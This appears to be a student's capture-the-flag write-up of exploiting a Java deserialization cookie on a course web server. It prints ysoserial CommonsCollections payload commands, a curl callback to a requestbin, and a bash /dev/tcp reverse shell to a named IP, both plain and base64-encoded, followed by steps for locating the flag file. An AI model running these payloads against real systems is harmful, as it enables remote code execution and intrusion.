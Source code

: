CommonCollections5 works!

- this is a java deserialization vuln, the item to deserialize is set as a cookie. Tried to decode with base64 and can see some java strings, then tried with SerializationDumper https://github.com/NickstaDB/SerializationDumper to see more info, but still no clear gadgets
- tried to inject custom serializations using yoserial first. tried with username (removing maxlength=40) but this bricked my siri setup (only returned "0"), oops. sorry
- then tried to replace the cookie with a yoserialization payload. Set up a requestbin and executed a curl command to the requestbin:

```
java -jar ysoserial-all.jar CommonsCollections1 "curl requestbinurl.com" | base64 -w0
```

- but no CURL request, nothing came in. Then tried with different versions of CommonsCollections, for 2 and 4 got the error "class not found" (so I am getting somewhere?) and for 5 I saw a request pop up in requestbin, nice
- tried to set up a reverse shell using a digitalocean VPS. Can't use piping directly (needed to redirect shell in- and outputs), so base64 encoded the following payload:
```
# start reverse shell to my VPS nc listener
bash -i >& /dev/tcp/104.248.91.239/999 0>&1
```
- converted this to base64 and then used yoserial with CommonsCollections5 to run
```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDQuMjQ4LjkxLjIzOS85OTkgMD4mMQo=}|{base64,-d}|{bash,-i}" | base64 -w0
```

- now I am in, can execute shell commands on the websec server. nice.
- looking around, the interesting stuff is probably in /var/websec, can access this dir but cannot list it. annoying"
- tried to look around for a bit, scan and bruteforce some dirs. I remember that there was a flag for social in "/var/websec/wwwstudent_12" can access this directory, nice!
    - but the same problem again. annoying. cannot list any files or folders
    - tried to use `find` to find files matching the "flag{}" pattern, but does not work if you cannot list dirs. tried to enter other students directories but cannot because I am not the right group
        - used `groups` to find out which group I actually am
            - am in group wwwchallenge_06, nice. that must be siri
            - took a look at the flag for social again. see that the flag was in level01, would /var/websec/wwwstudent_12/level06 work?
                - it does, really nice. Tried flag.txt and this time it worked



